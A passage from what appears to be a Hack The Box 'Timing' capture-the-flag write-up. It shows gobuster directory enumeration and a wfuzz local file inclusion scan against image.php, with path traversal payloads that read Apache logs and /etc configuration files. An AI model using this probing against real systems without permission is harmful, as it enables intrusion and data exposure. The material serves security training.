 Not a lot to go on so I tried looking for files with php extensions and found this:

```sh
┌──(root💀kali)-[~]
└─# gobuster dir -u http://timing.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://timing.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/12/20 22:08:01 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 309] [--> http://timing.htb/images/]
/js                   (Status: 301) [Size: 305] [--> http://timing.htb/js/]    
/css                  (Status: 301) [Size: 306] [--> http://timing.htb/css/]   
/logout.php           (Status: 302) [Size: 0] [--> ./login.php]                
/login.php            (Status: 200) [Size: 5609]                               
/upload.php           (Status: 302) [Size: 0] [--> ./login.php]                
/image.php            (Status: 200) [Size: 0]                                  
/profile.php          (Status: 302) [Size: 0] [--> ./login.php]                
/index.php            (Status: 302) [Size: 0] [--> ./login.php]                
/header.php           (Status: 302) [Size: 0] [--> ./login.php]                
===============================================================
2021/12/20 22:10:15 Finished
===============================================================
```

## Wfuzz

Interesting that the image.php file doesn't redirect to login like the others I tried fuzzing. It took me quite a while but eventually I ended up with this:

```sh
┌──(root💀kali)-[~]
└─# wfuzz -c --hh 0 -u 'http://timing.htb/image.php?img=FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://timing.htb/image.php?img=FUZZ
Total requests: 914
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000039:   200        0 L      3 W        25 Ch       "/apache/logs/error_log"
000000035:   200        0 L      3 W        25 Ch       "../../../../apache/logs/access.log"
000000037:   200        0 L      3 W        25 Ch       "../../apache/logs/access.log"
000000031:   200        0 L      3 W        25 Ch       "/apache2/logs/error.log"
000000030:   200        0 L      3 W        25 Ch       "/apache2/logs/error_log"
000000123:   200        0 L      3 W        25 Ch       "/etc/chrootUsers"
000000118:   200        0 L      3 W        25 Ch       "/etc/apache2/vhosts.d/default_vhost.include"
000000114:   200        0 L      3 W        25 Ch       "/etc/apache2/apache2.conf"
```
